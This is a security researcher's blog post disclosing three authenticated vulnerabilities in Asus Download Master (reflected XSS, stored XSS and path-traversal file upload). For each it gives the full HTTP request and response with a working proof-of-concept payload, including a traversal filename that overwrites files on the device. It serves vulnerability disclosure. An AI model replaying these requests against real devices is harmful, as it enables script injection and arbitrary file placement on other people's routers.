




## Asus, the gift that keeps on giving (cves)

something something a cve horse in the mouth

Remember back in the early 2000s, when download managers were all the rage? Well, turns out in 2024 Asus *still* has a product, aptly named "Download Master". This "app" installs to a USB device on your router. As it turns out, it's actually a full on linux environment running `busybox`... that's installed onto your USB stick, lol. 

DM, as I'll refer to it henceforth, was *riddled* with issues-- classic low-hanging bugs that you don't expect to see outside of a CTF. Since this isn't natively on the routers it's not as big a deal, and Shodan reports only around ~2.9k devices worldwide, and Censys about the same:



In my cursory prodding, I came across the following bug types, note that they are ALL authenticated:

1. Reflected XSS
2. Stored XSS
3. Arbitrary File Uploads / Path Traversal
4. Command Injections
5. Buffer Overflows

For this post I'll review 1 - 3, and a part two will contain the fun ones.

## Reflected XSS - CVE-2024-31159

Endpoint: `/check.asp`

The `directurl` POST body parameter is not sanitized prior to being reflected within application responses, resulting in the ability to perform cross-site scripting attacks.

Payload: `"-alert("XSS")-"`

**Request:**
```html
POST /check.asp HTTP/1.1
Host: 192.168.1.2:8081
Content-Length: 128
Origin: http://192.168.1.2:8081
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.2:8081/check.asp
Cookie: hwaddr=3C:7C:3F:53:C1:00; apps_last=downloadmaster; clickedItem_tab=0; asus_token=ERc5RMR5mV5iDo6sZjtHhvTdfjuVMyo
Connection: close

flag=&login_username=[REDACTED]&login_passwd=[REDACTED]&foilautofill=&directurl=%2Fdownloadmaster%2Ftask.asp"-alert("XSS")-"
```

**Response:**
```html
HTTP/1.1 200 OK
Set-Cookie: AuthByPasswd=asus_app_token:9ecafe2c4909d1b93bfa474fe119512f; path=/downloadmaster/; httponly;
Cache-Control: no-store
Cache-Control: no-cache
Content-Type: text/html
Content-Length: 886
Connection: close
Date: Thu, 27 Jul 2023 22:58:34 GMT
Server: lighttpd/1.4.39

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<html xmlns:v>
<head>
<meta http-equiv="X-UA-Compatible" content="IE=EmulateIE8" />
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<meta http-equiv="Expires" content="-1" />
<meta HTTP-EQUIV="Cache-Control" CONTENT="no-cache">
<meta http-equiv="Pragma" content="no-cache" />
<title>Login Jump</title>
<script type="text/javascript" src="jquery.js"></script>
</head>
<body>
<script>
var httpTag 		= 'https:' == document.location.protocol ? false : true;
var directurl_host 	= document.location.host;
var url 			="/downloadmaster/task.asp"-alert("XSS")-"";
if(httpTag)
self.location = "http://" +directurl_host	+ url;
else
self.location = "https://" +directurl_host	+ url;
</script>
</body>
</html>
```

**Screenshot:**


## Stored XSS - CVE-2024-31160

Endpoint: `/downloadmaster/dm_apply.cgi`

The `usb_dm_url` URL parameter is not sanitized prior to it being stored as a download task. This value is the reflected within the `/downloadmaster/task.asp` page unsafely, resulting in the ability to perform stored-cross site scripting attacks.

**Request:**
```html
GET /downloadmaster/dm_apply.cgi?action_mode=DM_ADD&download_type=5&again=no&usb_dm_url=%3cscript%3ealert('stored-xss')%3c/script%3e HTTP/1.1
Host: 192.168.1.2:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Referer: http://192.168.1.2:8081/downloadmaster/task.asp
Cookie: AuthByPasswd=asus_app_token:687b0a83a016a94f8a06ba793349d613; 
```

**Response:**
```html
HTTP/1.1 200 OK
ContentType: text/html
Cache-Control: private,max-age=0;
Connection: close
Date: Thu, 27 Jul 2023 23:09:48 GMT
Server: lighttpd/1.4.39
Content-Length: 10

ACK_SUCESS
```

A request to `dm_print_status.cgi` (sent as part of loading `task.asp`) returns the stored xss:

**Request:**
```
GET /downloadmaster/dm_print_status.cgi?action_mode=All HTTP/1.1
Host: 192.168.1.2:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Cookie: AuthByPasswd=asus_app_token:687b0a83a016a94f8a06ba793349d613;
```

**Response:**
```
HTTP/1.1 200 OK
ContentType: text/html
Cache-Control: private,max-age=0;
Date: Thu, 27 Jul 2023 23:13:37 GMT
Server: lighttpd/1.4.39
Content-Length: 113

["1","<script>alert('stored-xss')</script>","0.0","","notbegin","OTHER","","0 KBps","0 KBps","0","","0.0000",""]

```

Screenshot:


## Arbitrary Uploads / Path Traversal - CVE-2024-31161

Endpoint: `/downloadmaster/dm_uploadbt.cgi`

It is possible to upload arbitrary files to arbitrary locations by manipulating parameter values in file uploads sent to the `dm_uploadbt.cgi` endpoint. It is possible to include path traversal characters within the `filename` parameter of POST requests made to this endpoint and cause the file being uploaded to be stored anywhere, overwriting existing files.

Additionally, no restrictions on file contents were observed, making it possible to upload arbitrary files such as malware or web shells.

**Request:**
```html
POST /downloadmaster/dm_uploadbt.cgi HTTP/1.1
Host: 192.168.1.2:8081
Content-Length: 273
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBfjAbnA3mHUXAZ6q
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Cookie: AuthByPasswd=asus_app_token:abf4c1e97f3ad73ff53c25399b8f8c42;

------WebKitFormBoundaryBfjAbnA3mHUXAZ6q
Content-Disposition: form-data; name="filename"; filename="../../asusware.arm/etc/downloadmaster/downloadmaster/test.asp"
Content-Type: application/x-bittorrent

hello from n0rthw4rd
------WebKitFormBoundaryBfjAbnA3mHUXAZ6q--
```

**Response:**
```html
HTTP/1.1 200 OK
ContentType: text/html
Cache-Control: private,max-age=0;
Date: Tue, 25 Jul 2023 14:44:35 GMT
Server: lighttpd/1.4.39
Content-Length: 73

<script>parent.hideLoading();parent.response_dm_add("ACK_FAIL");</script>
```

Although the application's response indicates the request was not successful, navigating to the `/downloadmaster/test.asp` URI returns the uploaded file. This can be additionally validated by connecting to the device via SSH and validating the file's presence.

